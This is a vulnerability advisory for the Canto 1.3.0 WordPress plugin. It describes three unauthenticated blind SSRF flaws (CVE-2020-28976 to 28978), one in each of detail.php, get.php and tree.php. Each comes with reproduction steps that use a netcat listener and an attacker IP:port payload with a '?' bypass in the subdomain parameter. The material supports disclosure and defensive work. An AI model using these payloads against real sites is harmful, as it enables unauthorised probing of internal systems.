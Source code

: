 # Wordpress Plugin Canto 1.3.0 - Blind SSRF Vulnerability

## Multiple Server-Side Request Forgery Vulnerabilities found in Canto 1.3.0 version.

**Description:-**
The Canto plugin 1.3.0 for WordPress contains Blind SSRF Vulnerability.
It allows an unauthenticated attacker can make a request to any Internal and External Server via /includes/lib/detail.php?subdomain=SSRF.

**Steps To Reproduce:-**
1. Start a Netcat Listener on port 4499.
2. Navigate to "<wordpress_server>/wp-content/plugins/canto/includes/lib/detail.php?subdomain="
3. Add the Attacker's IP and Port For e.g. "172.17.0.1:4499?" to "subdomain=" parameter.
4. Observe the response we got from the Target.

Note: Using "?" in the payload is mandatory as it acts as a bypass to conduct this attack.

**Reference: CVE-2020-28976**


**Description:-**
The Canto plugin 1.3.0 for WordPress contains Blind SSRF Vulnerability.
It allows an unauthenticated attacker can make a request to any Internal and External Server via /includes/lib/get.php?subdomain=SSRF.

**Steps To Reproduce:-**
1. Start a Netcat Listener on port 4499.
2. Navigate to "<wordpress_server>/wp-content/plugins/canto/includes/lib/get.php?subdomain="
3. Add the Attacker's IP and Port For e.g. "172.17.0.1:4499?" to "subdomain=" parameter.
4. Observe the response we got from the Target.

Note: Using "?" in the payload is mandatory as it acts as a bypass to conduct this attack.

**Reference: CVE-2020-28977**


**Description:-**
The Canto plugin 1.3.0 for WordPress contains Blind SSRF Vulnerability.
It allows an unauthenticated attacker can make a request to any Internal and External Server via /includes/lib/tree.php?subdomain=SSRF.

**Steps To Reproduce:-**
1. Start a Netcat Listener on port 4499.
2. Navigate to "<wordpress_server>/wp-content/plugins/canto/includes/lib/tree.php?subdomain="
3. Add the Attacker's IP and Port For e.g. "172.17.0.1:4499?" to "subdomain=" parameter.
4. Observe the response we got from the Target.

Note: Using "?" in the payload is mandatory as it acts as a bypass to conduct this attack.

**Reference: CVE-2020-28978**
